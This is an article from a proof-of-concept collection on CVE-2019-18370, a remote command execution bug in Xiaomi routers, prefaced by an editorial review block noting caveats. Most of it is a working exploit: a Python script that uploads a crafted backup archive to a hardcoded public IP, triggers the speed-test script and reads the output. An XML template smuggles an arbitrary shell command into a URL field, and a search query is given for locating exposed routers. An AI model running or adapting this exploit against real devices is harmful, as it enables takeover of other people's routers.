

# 小米 路由器 c_upload 远程命令执行漏洞 CVE-2019-18370

<!-- article-review:devices:begin -->
## 技术校订与证据边界（2026-10-02）

- 产品/组件：Xiaomi Mi WiFi R3G为已知源样本
- 本文讨论：CVE-2019-18370 c_upload/netspeed链
- 版本、权限与配置前提：需要有效stok；原文说通过文件读获取但合法登录同样可获得
- 资料类型：重复二阶段RCE PoC；本次仅核对归档正文，未执行 PoC、未请求目标，未把原作者的“复现成功”继承为本库验证结果

### 逐项校订

- 影响泛化小米全部路由器，遗漏843精确型号/固件
- 代码硬编码公网IP:8098应替换实验地址
- 与843相同链，模板末尾少exit/wget续接应核不同命令拼接上下文，不能盲删差异
- 固定结果文件、200判据及无清理，认证只文末交代

### 操作风险与恢复

- 文中写入/上传步骤会创建或覆盖目标文件；须先核对服务账户写权限、保存路径和脚本解析条件，验证后按原路径核查残留

### 待核与来源

- 模板差异有效性/固件范围待核
- 引用图片未查看，截图内容及有效性待核验
- 文内原始链接和图片引用继续保留；未检查图片像素、未下载或执行外部附件。版本边界、修复/在野状态及厂商归属若缺一手依据，均不能视为本次已确认
- 下方保留原技术正文与载荷；其中历史时间表述和成功主张应按本节限定阅读
<!-- article-review:devices:end -->


## 漏洞描述

小米路由器存在接口，备份文件是tar.gz格式的，上传后tar zxf解压，所以构造备份文件，可以控制解压目录的文件内容，结合测试上传下载速度功能的sh脚本执行时读取测试url列表文件，并将url部分直接进行命令拼接执行。

## 漏洞影响

```
小米 路由器
```

## 网络测绘

```
app="小米路由器"
```

## 漏洞复现

登录页面


验证POC

```python
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
    template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
    f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
    # tar.add("cfg_backup.des")
    # tar.add("cfg_backup.mbu")
    tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://101.249.46.7:8098/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://101.249.46.7:8098/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://101.249.46.7:8098/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
    print("success, vul")
    print(r3.text)
```

template.xml 文件

```xml
<?xml version="1.0"?>
<root>
    <class type="1">
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
    </class>
    <class type="2">
        <item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt;"/>
    </class>
    <class type="3">
        <item uploadurl="http://www.taobao.com/"/>
        <item uploadurl="http://www.so.com/"/>
        <item uploadurl="http://www.qq.com/"/>
        <item uploadurl="http://www.sohu.com/"/>
        <item uploadurl="http://www.tudou.com/"/>
        <item uploadurl="http://www.360doc.com/"/>
        <item uploadurl="http://www.kankan.com/"/>
        <item uploadurl="http://www.speedtest.cn/"/>
    </class>
</root>
```

接口为后台权限接口，需要通过任意文件读取漏洞获取 stok




---

> 来源：Threekiii/Awesome-POC
